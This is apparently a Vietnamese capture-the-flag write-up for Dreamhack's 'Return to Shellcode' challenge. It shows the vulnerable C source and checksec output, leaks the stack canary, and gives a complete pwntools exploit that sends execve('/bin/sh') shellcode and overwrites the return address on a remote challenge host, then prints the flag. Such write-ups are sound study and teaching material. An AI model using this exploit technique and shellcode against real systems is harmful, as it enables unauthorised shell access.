





**1. Tìm lỗi**

Dùng lệnh file kiểm tra:

```
r2s: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=15e9dea98164c863a718820de5bd4261ea48e1d7, not stripped
```

Ta có source như sau:

```
// Name: r2s.c
// Compile: gcc -o r2s r2s.c -zexecstack

#include <stdio.h>
#include <unistd.h>

void init() {
  setvbuf(stdin, 0, 2, 0);
  setvbuf(stdout, 0, 2, 0);
}

int main() {
  char buf[0x50];

  init();

  printf("Address of the buf: %p\n", buf);
  printf("Distance between buf and $rbp: %ld\n",
         (char*)__builtin_frame_address(0) - buf);

  printf("[1] Leak the canary\n");
  printf("Input: ");
  fflush(stdout);

  read(0, buf, 0x100);
  printf("Your input is '%s'\n", buf);

  puts("[2] Overwrite the return address");
  printf("Input: ");
  fflush(stdout);
  gets(buf);

  return 0;
}
```

Chương trình cho phép người dùng nhập vào một chuỗi bất kỳ với hàm read() và in chuỗi đó ra đầu ra. Sau khi đọc chuỗi đầu vào, chương trình cho phép người dùng nhập vào thêm một chuỗi bằng hàm gets(), mà không giới hạn kích thước của chuỗi đó. Điều này có thể dẫn đến tràn bộ đệm vì kích thước của mảng buf chỉ là 80 byte trong khi hàm gets() có thể cho phép người dùng nhập vào nhiều hơn.

Dùng lệnh ```checksec``` kiểm tra:

```
pwndbg> checksec
[*] '/mnt/d/CTF_Writeup/dream_hack/Return_to_Shellcode/r2s'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```

Ta thấy stack đang ở Canary found nên cần leak canary.

**2. Ý tưởng**

- Ở lệnh ```read``` thì nhập tràn đến canary để %s có thể leak được địa canary
- Ở lệnh ```gets``` thì nhập shellcode và byte rác tràn đến ret với giá trị canary đã có để điều hướng lại shellcode mình đã ghi.

**3. Khai thác**

- Leak canary:

Đặt breakpoint sau lệnh ```read``` xem canary cách biến buf bao xa



Canary đang cách biến buf 0x58 trên stack nhưng ở đây byte đầu canary đang là byte 0 nên %s sẽ ngừng đọc từ đó. Vậy sẽ ghi đè nó rồi lát trừ sau.

```
payload = b'a'*0x59
r.sendafter(b'Input: ', payload)
r.recvuntil(b'a'*0x58)
canary_leak = u64(r.recv(8))
canary_leak = canary_leak - 0x61
log.info('canary: ' + hex(canary_leak))
```

Tiếp theo check xem đã leak đúng giá trị canary chưa





Như vậy đã leak đúng địa chỉ canary.

- Tiếp theo nhập shellcode ở lệnh ```get``` và điều hướng về shellcode đã nhập

Để điều hướng về shellcode mình nhập thì phải lưu lại địa chỉ biến buf đã in ra ở đầu chương trình.

```
r.recvuntil(b'buf: ')
buf_leak = r.recv(14).decode()
log.info('buf: ' + buf_leak)
buf_leak = int(buf_leak, 16)
```

Như vậy đã có địa chỉ biến buf lẫn địa chỉ canary nên bây giờ chỉ cần nhập shellcode và byte rác sau đó giá trị canary và địa chỉ shellcode

```
payload = b'\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'
payload = payload.ljust(0x58, b'a')
payload += p64(canary_leak) + b'a'*8 + p64(buf_leak)
r.sendlineafter(b'Input: ', payload)
```

Đặt breakpoint ở ret xem có trả về shellcode của mình không



Như vậy chương trình đã trả về shellcode của mình. Ta có script như sau:

```
from pwn import *

exe = ELF('r2s', checksec = False)
#r = process(exe.path)
r = remote('host3.dreamhack.games', 14646)

### Lấy địa chỉ biến buf
r.recvuntil(b'buf: ')
buf_leak = r.recv(14).decode()
log.info('buf: ' + buf_leak)
buf_leak = int(buf_leak, 16)

#input()
### Leak địa chỉ canary
payload = b'a'*0x59
r.sendafter(b'Input: ', payload)
r.recvuntil(b'a'*0x58)
canary_leak = u64(r.recv(8))
canary_leak = canary_leak - 0x61
log.info('canary: ' + hex(canary_leak))

### Nhập shell và điều hướng
payload = b'\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'
payload = payload.ljust(0x58, b'a')
payload += p64(canary_leak) + b'a'*8 + p64(buf_leak)
r.sendlineafter(b'Input: ', payload)
r.interactive()
```

**4. Lấy flag**



```Flag: DH{333eb89c9d2615dd8942ece08c1d34d5}```